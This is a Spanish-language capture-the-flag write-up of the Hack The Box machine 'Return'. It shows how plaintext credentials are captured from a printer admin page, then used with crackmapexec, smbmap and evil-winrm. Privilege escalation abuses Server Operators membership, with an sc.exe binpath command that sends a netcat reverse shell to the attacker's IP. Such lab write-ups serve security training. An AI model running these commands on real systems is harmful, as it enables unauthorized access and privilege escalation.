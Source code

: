 # HTB-Return `10.10.11.108`

*Abusing Printer*

*Abusing Server Operators Group*

*Service Configuration Manipulation*

### Intrusión
Como siempre empezamos con nuestra sentencia nmap

```
nmap -p- --open -sS -sCV --min-rate 5000 -n -Pn -vvv 10.10.11.108 -oN Targeted
```
 
 ![samba](images/sambaaaaaaaa.jpg)
 
 
 ![gordo](images/gordoooo.jpg)

Descubrimos varios puertos interesantes abiertos, entre ellos:
`
80,135,139,389 y 445.
`

Vamos a empezar examinando la web, encontramos un directorio público en el que parece que nos conectamos a una impresora a través de una dirección y el puerto 389.

 ![WEB](images/web_ini.jpg)
 
 
Podemos comprobar que la contraseña no es una contraseña como tal, es solo texto.
Se me ocurre que podemos ver si tenemos conexión con ese formulario, para ello introducimos nuestra dirección IP.

![serv_add](images/serv_add.jpg)

Y abrimos tcpdump por el adaptador red de la VPN.

```
tcpdump -i tun0 -n icmp
```
 
Al hacer click en update, podemos ver que nos llegan paquetes HTTP.

![resp](images/resuesta.jpg)
 
Vamos a intentar escuchar por el puerto indicado, el 389, con netcat:

![nc](images/nc.jpg)

Y vaya, tenemos credenciales.

`
svc-printer:1edFg43012 !!
`

Si las probamos en crackmapexec podemos ver que son credenciales válidas para SMB.

```
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```

![crack](images/crackmapexec.jpg)

Lo podemos comprobar con smbmap

```
smbmap -H 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```

![smb](images/smbmap.jpg)
 
Vamos a realizar la intrusión en la máquina usando evil-winrm (gem install evil-winrm)

```
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```

![winrm](images/winrm.jpg)

*Y hemos logrado entrar en la máquina y obtener la primera flag.*


### Escalada de Privilegios
Si hacemos un `whoami /priv` obtenemos varios medios por los que escalar privilegios.

Si hacemos un `whoami /groups` nos llama la atención Server Operators
 
![groups](images/groups.jpg)

“A built-in group that exists only on domain controllers. By default, the group has no members. Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer.”
Vamos a intentar modificar un servicio como dice aquí [https://cube0x0.github.io/Pocing-Beyond-DA/](https://cube0x0.github.io/Pocing-Beyond-DA/)


Vamos a subir netcat a la máquina víctima

![loc](images/locate_nc.jpg)

![impacket](images/Impacket.jpg)

![copy](images/copy.jpg)
 

Vamos a ver que servicios hay activos: `services`

![servicios](images/images.jpg)
 
*Inicialmente se va probando con cada servicio, hasta que nos deje con uno de ellos:*

Intentamos cambiar el servicio VSS con binpath, indicándole que nos mande una Shell con netcat

```
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.11 443
```

![binpath](images/binpath.jpg)
 
Intentamos parar el servicio, pero no está iniciado.

![stop](images/stop.jpg)

Así que lo iniciamos, abriendo un puerto de escucha antes en nuestra máquina

![nc2](images/nc2.jpg)

![start](images/start.jpg)

Recibimos exitosamente una Shell

![admin](images/admin.jpg)

Completando la máquina exitosamente
  

